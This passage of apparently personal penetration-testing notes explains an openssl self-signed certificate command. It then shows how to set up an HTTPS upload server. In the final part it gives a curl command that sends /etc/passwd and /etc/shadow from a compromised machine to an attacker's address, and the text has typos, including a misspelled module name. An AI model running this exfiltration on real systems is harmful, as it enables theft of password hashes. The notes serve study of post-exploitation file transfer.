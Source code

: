     - Tells OpenSSL to generate a new private key and a corresponding certificate.
    - `rsa:2048` specifies that the private key should use the RSA algorithm with a key size of 2048 bits.
6. **`-nodes`**:
    
    - Stands for "No DES encryption."
    - Ensures that the private key is not encrypted with a passphrase. This is useful in automated environments where entering a password interactively is not feasible.
7. **`-sha256`**:
    
    - Specifies the hashing algorithm to use for the certificate's signature. SHA-256 is a secure and widely used hashing algorithm.
8. **`-subj '/CN=server'`**:
    
    - Provides the subject information for the certificate in a single string.
    - `/CN=server` sets the **Common Name (CN)** field of the certificate to "server."
    - Common Name typically represents the domain name or identifier for which the certificate is issued.

---

### Purpose:

This command generates:

1. A **self-signed certificate** that can be used to establish HTTPS or other secure communications for a server.
2. A **private key** paired with the certificate, stored in the same file (`server.pem`).

This is particularly useful for testing, internal services, or when you don't need a certificate signed by a trusted Certificate Authority (CA).

### Example Usage:

- **For Testing**: Use this self-signed certificate in a local or development environment to set up HTTPS for a server.
- **Simple TLS Servers**: Use it for internal services or quick setups where security doesn't depend on being trusted by external clients.

### Output:

The resulting file, `server.pem`, contains both the **private key** and the **self-signed certificate**. You can inspect the contents using:
```bash
openssl x509 -in server.pem -text -noout
```

or to view the private key:
```bash
openssl rsa -in server.pem -check
```
#### Start a Web Server
```bash
mkdir https && cd https
sudo python3 -m uuploadserver 443 --server-certificate ~/server.pem
```
Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.
```bash
curl -X POST https://192.168.0.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
WE sued the option `--insecure` becase we used a self-signed certificate that we trust.
## Alternative Wev File Transfer Methods
Since Linux distributions usually have Python or php installed, starting a web server to transfer files is straightforward.
```bash
python3 -m http.server
```